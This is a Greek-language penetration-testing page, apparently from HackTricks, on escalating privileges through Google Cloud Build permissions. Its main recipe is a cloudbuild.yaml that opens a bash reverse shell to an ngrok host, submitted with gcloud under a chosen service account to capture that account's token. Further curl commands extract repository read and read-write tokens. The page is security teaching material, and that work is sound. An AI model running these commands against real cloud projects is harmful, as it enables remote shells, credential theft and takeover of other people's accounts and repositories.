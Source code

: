 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Για περισσότερες πληροφορίες σχετικά με το Cloud Build, ελέγξτε:

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`, `iam.serviceAccounts.actAs`

Με αυτή την άδεια μπορείτε να **υποβάλετε μια κατασκευή cloud**. Η μηχανή cloudbuild θα έχει στο σύστημα αρχείων της **κατά προεπιλογή ένα διακριτικό του Service Account του cloudbuild**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Ωστόσο, μπορείτε να **υποδείξετε οποιοδήποτε service account μέσα στο έργο** στη διαμόρφωση του cloudbuild.\
Επομένως, μπορείτε απλά να κάνετε τη μηχανή να εξάγει το διακριτικό στον διακομιστή σας ή **να αποκτήσετε μια αντίστροφη θύρα μέσα σε αυτήν και να αποκτήσετε το διακριτικό** (το αρχείο που περιέχει το διακριτικό μπορεί να αλλάξει).

#### Άμεση εκμετάλλευση μέσω gcloud CLI

1- Δημιουργήστε το `cloudbuild.yaml` και τροποποιήστε το με τα δεδομένα του listener σας.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14965 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
2- Ανεβάστε μια απλή κατασκευή χωρίς πηγή, το αρχείο yaml και καθορίστε το SA που θα χρησιμοποιηθεί στην κατασκευή:
```bash
gcloud builds submit --no-source --config="./cloudbuild.yaml" --service-account="projects/<PROJECT>/serviceAccounts/<SERVICE_ACCOUNT_ID>@<PROJECT_ID>.iam.gserviceaccount.com
```
#### Χρησιμοποιώντας τη βιβλιοθήκη python gcloud
Μπορείτε να βρείτε το αρχικό σενάριο εκμετάλλευσης [**εδώ στο GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (αλλά η τοποθεσία από την οποία παίρνει το token δεν λειτούργησε για μένα). Επομένως, ελέγξτε ένα σενάριο για να αυτοματοποιήσετε τη [**δημιουργία, εκμετάλλευση και καθαρισμό ενός ευάλωτου περιβάλλοντος εδώ**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) και ένα σενάριο python για να αποκτήσετε ένα reverse shell μέσα στη μηχανή cloudbuild και [**να το κλέψετε εδώ**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (στον κώδικα μπορείτε να βρείτε πώς να καθορίσετε άλλους λογαριασμούς υπηρεσίας)**.**

Για μια πιο λεπτομερή εξήγηση, επισκεφθείτε [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)


### `cloudbuild.repositories.accessReadToken`

Με αυτή την άδεια, ο χρήστης μπορεί να αποκτήσει το **token πρόσβασης ανάγνωσης** που χρησιμοποιείται για την πρόσβαση στο αποθετήριο:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

Με αυτή την άδεια, ο χρήστης μπορεί να αποκτήσει το **token πρόσβασης για ανάγνωση και εγγραφή** που χρησιμοποιείται για την πρόσβαση στο αποθετήριο:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

Με αυτή την άδεια μπορείτε να **πάρετε τα αποθετήρια στα οποία έχει πρόσβαση η σύνδεση:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
